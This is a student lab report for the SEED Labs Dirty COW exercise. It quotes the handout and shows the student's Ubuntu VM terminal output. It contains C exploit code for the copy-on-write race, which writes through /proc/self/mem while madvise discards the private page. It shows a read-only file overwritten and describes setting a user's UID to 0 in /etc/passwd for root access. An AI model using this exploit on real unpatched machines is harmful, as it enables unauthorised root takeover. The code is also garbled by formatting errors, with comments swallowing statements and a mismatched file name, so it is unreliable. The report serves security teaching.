 
# SEEDlabs: Dirty COW Attack Lab

#### Ozgur Ural
#### Student ID: 2564455

## 1 Lab Overview

The Dirty COW vulnerability is an interesting case of the race condition vulnerability. It existed in the  Linux  kernel  since  September  2007,  and  was  discovered  and  exploited  in  October  2016. The vulnerability affects all Linux-based operating systems, including Android, and its consequence is very severe: attackers can gain the root privilege by exploiting the vulnerability. The  vulnerability  resides  in  the  code  of  copy-on-write  inside  Linux  kernel.  By  exploiting  this vulnerability, attackers can modify any protected file, even though these files are only readable to them.

The objective of this lab is for you to gain the hands-on experience on the Dirty COW attack, understand the race condition vulnerability exploited by the attack, and gain a deeper understanding  of  the  general race condition security  problems.  In  this  lab, you will  exploit the Dirty COW race condition vulnerability to gain the root privilege. Note:  This  lab  is  based  on  the  Ubuntu12.04  VM.  If  you  are  currently  using  a  newer  Linux version,  such  as  Ubuntu16.04,  the  vulnerability  has  already  been  patched.  Therefore, to complete this lab please use the Ubuntu 12.04 VM.

## 2 Task 1: Modify a Dummy Read-Only File
The objective of this task is to write to a read-only file using the Dirty COW vulnerability.

## 2.1 Create a Dummy File
We first need to select a target file. Although this file can be any read-only file in the system, we will use a dummy file in this task, so we do not corrupt an important system file in case we make a mistake. Please create a file called zzz in the root directory using the root account, change its permission  to  read-only for normal users, and put some random content into the file using an editor such as gedit.

```sh
$ sudo touch /zzz
$ sudo chmod 644 /zzz
$ sudo gedit /zzz
$ cat /zzz 111111222222333333
$ ls -l /zzz
$ -rw-r--r-- 1 root root 19 Oct 18 22:03 /zzz
$ echo 99999 > /zzz
$ bash: /zzz: (*@Permission denied@*)
```

From the above experiment, we can see that if we try to write to this file as a normal user, we will fail, because the file is only readable to normal users. However, because of the Dirty COW vulnerability in the system, we can find a way to write to this file. Our objective is to replace the pattern "222222" with "******".


I followed the steps above as you can see below. 
```sh
[11/27/21]seed@VM:~$ setxkbmap tr
[11/27/21]seed@VM:~$ sudo touch /zzz
[11/27/21]seed@VM:~$ sudo chmod 644 /zzz
[11/27/21]seed@VM:~$ sudo gedit /zzz
[11/27/21]seed@VM:~$ ls -l /zzz
-rw-r--r-- 1 root root 19 Nov 27 18:49 /zzz
[11/27/21]seed@VM:~$ echo 99999 > /zzz
bash: /zzz: Permission denied
```


## 2.2 Set Up the Memory Mapping Thread

You  check  the  program  cow  attack.c  for  this  lab.  The  program  has  three  threads:  the  main 
thread, the write thread, and the madvise thread. The main thread maps /zzz to memory, finds 
where  the  pattern  "222222"  is,  and  then  creates  two  threads  to  exploit  the  Dirty  COW  race 
condition vulnerability in the OS kernel.

```sh
/* cow_attack.c (the main thread) */
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>
#define OFFSET 5
#define TARGET_CONTENT " I have successfully Attacked!! "
void *map;
int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  // Open the file in read only mode. int 
  f=open("/zzz", O_RDONLY);
  // Open with PROT_READ.
  fstat(f, &st);
  map=mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, NULL); (*@Line 1@*)
  pthread_create(&pth2, NULL, writeThread, TARGET_CONTENT); (*@Line 2@*)
  // Wait for the threads to finish. 
  pthread_join(pth1, NULL); 
  pthread_join(pth2, NULL);
  return 0;
}
```
In the above code, we start two threads: madviseThread (Line À) and writeThread (Line `)



## 2.3 Set Up the write Thread

The job of the write thread listed in the following is to replace the string "222222" in the memory 
with  "******".  Since  the  mapped  memory  is  of  COW  type,  this  thread  alone  will  only  be  able  to 
modify the contents in a copy of the mapped memory, which will not cause any change to the 
underlying /zzz file.

```sh
/* cow_attack.c (the write thread) */
void * writeThread(void *arg)
{
  char *content= (char*) arg;
  char current_content[10];
  int f=open("/proc/self/mem", O_RDWR); while(1) 
  {
    //Set the file pointer to the OFFSET from the beginning lseek(f, (uintptr_t) 
    map + OFFSET, SEEK_SET); write(f, content, strlen(content));
  }
}
```

## 2.4 The madvise Thread

The madvise thread does only one thing: discarding the private copy of the mapped memory, so 
the page table can point back to the original mapped memory.

```sh
/* cow_attack.c (the madvise thread) */
void *madviseThread(void *arg)
{
  while(1){
    madvise(map, 100, MADV_DONTNEED);
  }
}
```

## 2.5 Launch the Attack

If the write() and the madvise() system calls are invoked alternatively, i.e., one is invoked only 
after the other is finished, the write operation will always be performed on the private copy, and 
we  will  never  be  able  to  modify  the  target  file.  The  only  way  for  the  attack  to  succeed  is  to 
perform the madvise() system call while the write() system call is still running. We cannot always 
achieve that, so we need to try many times. As long as the probability is not extremely low, we 
have  a  chance.  That  is  why  in  the  threads,  we  run  the  two  system  calls  in  an  infinite  loop. 
Compile the cow attack.c and run it for a few seconds. If your attack is successful, you should 
be able to see a modified /zzz file. Report your results in the lab report and explain how you are 
able to achieve that.

```sh
$ gcc cow_attack.c -lpthread
$ a.out
... press Ctrl-C after a few seconds ...
```

The attack is successful as you can see below.

```sh
[11/27/21]seed@VM:~$ sudo gedit cow_attack.c
[11/27/21]seed@VM:~$ gcc attack.c -lpthread
[11/27/21]seed@VM:~$ a.out
[11/27/21]seed@VM:~$ cat /zzz
111111******333333
```

## 3 Task 2: Modify the Password File to Gain the Root Privilege

Now, let’s launch the attack on a real system file, so we can gain the root privilege. We choose 
the  /etc/passwd  file  as  our  target  file.  This  file  is  world-readable,  but  non-root  users  cannot 
modify it. The file contains the user account information, one record for each user. Assume that 
our user name is seed . The following lines show the records for root and seed:

```sh
root:x:0:0:root:/root:/bin/bash 
seed:x:1000:1000:Seed,123,,:/home/seed:/bin/bash
```

Each  of  the  above  record  contains  seven  colon-separated  fields.  Our  interest  is  on  the  third 
field,  which  specifies  the  user  ID  (UID)  value  assigned  to  a  user.  UID  is  the  primary  basis  for 
access control in Linux, so this value is critical to security. The root user’s UID field contains a 
special value 0; that is what makes it the superuser, not its name. Any user with UID 0 is treated 
by the system as root, regardless of what user name he or she has. The seed user’s ID is only 
1000, so it does not have the root privilege. However, if we can change the value to 0, we can 
turn it into root. We will exploit the Dirty COW vulnerability to achieve this goal.
In our experiment, we will not use the seed account, because this account is used for most of 
the  experiments  in  this  book;  if  we  forget  to  change  the  UID  back  after  the  experiment,  other 
experiments will be affected. Instead, we create a new account called charlie, and we will turn 
this normal user into root using the Dirty COW attack. Adding a new account can be achieved 
using  the  adduser  command.  After  the  account  is  created,  a  new  record  will  be  added  to 
/etc/passwd. See the following:

```sh
$ sudo adduser charlie
...
$ cat /etc/passwd | grep charlie 
charlie:x:1001:1001:,,,:/home/charlie:/bin/bash
```

We suggest that you save a copy of the /etc/passwd file, just in case you make a mistake and 
corrupt  this  file.  An  alternative  is  to  take  a  snapshot  of  your  VM  before  working  on  this  lab,  so 
you can always roll back if the VM got corrupted.
Task:  You  need  to  modify  the  charlie’s  entry  in  /etc/passwd,  so  the  third  field  is  changed  from 
1001  to  0000,  essentially  turning  charlie  into  a  root  account.  The  file  is  not  writable  to  charlie, 
but  we  can  use  the  Dirty  COW  attack  to  write  to  this  file.  You  can  modify  the  cow  attack.c 
program from Task 1 to achieve this goal.
After your attack is successful, if you switch user to charlie, you should be able to see the # sign 
at the shell prompt, which is an indicator of the root shell. If you run the id command, you should 
be able to see that you have gained the root privilege.

```sh
seed@ubuntu$ su charlie
Passwd:
root@ubuntu# id
(uid=0(root)) gid=1001(charlie) groups=0(root),1001(charlie)
```

